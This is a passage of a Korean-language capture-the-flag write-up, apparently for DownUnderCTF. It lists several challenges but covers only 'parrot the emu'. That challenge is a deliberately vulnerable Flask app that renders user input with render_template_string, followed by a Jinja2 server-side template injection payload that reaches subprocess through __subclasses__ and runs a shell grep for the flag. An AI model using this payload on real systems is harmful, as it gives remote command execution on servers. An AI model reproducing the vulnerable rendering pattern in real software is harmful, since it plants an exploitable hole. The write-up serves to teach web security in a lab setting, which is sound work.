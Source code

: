 ## Writeup   
     
- <a href="#parrot-the-emu">parrot the emu</a>     
- <a href="#zoo-feedback-form">zoo feedback form</a>   
- <a href="#co2">co2</a>   
- <a href="#hah-got-em">hah got em</a>    
- <a href="#i-am-confusion">i am confusion</a>    
- <a href="#co2v2">co2v2</a>   
- <a href="#sniffy">sniffy</a>    
- <a href="#waifu">waifu</a>    
- <a href="#prisoner-processor">prisoner-processor</a>   

<a id="parrot-the-emu"></a>          

# parrot the emu     
           
993 solved / 100 pts          
     
```python
from flask import Flask, render_template, request, render_template_string

app = Flask(__name__)

@app.route('/', methods=['GET', 'POST'])
def vulnerable():
    chat_log = []

    if request.method == 'POST':
        user_input = request.form.get('user_input')
        try:
            result = render_template_string(user_input)
        except Exception as e:
            result = str(e)

        chat_log.append(('User', user_input))
        chat_log.append(('Emu', result))
    
    return render_template('index.html', chat_log=chat_log)

if __name__ == '__main__':
    app.run(debug=True, port=80)

```     

`render_template_string()` 함수에 사용자 입력이 직접적으로 들어가기 때문에 SSTI 취약점이 발생한다. 
       
### Exploit Code    
      
{% raw %}   
```python
{{ ''.__class__.__mro__[1].__subclasses__()[213]("grep -r 'DUCTF' *", shell=True,stdout=-1).communicate()}}
```      
{% endraw %}   
     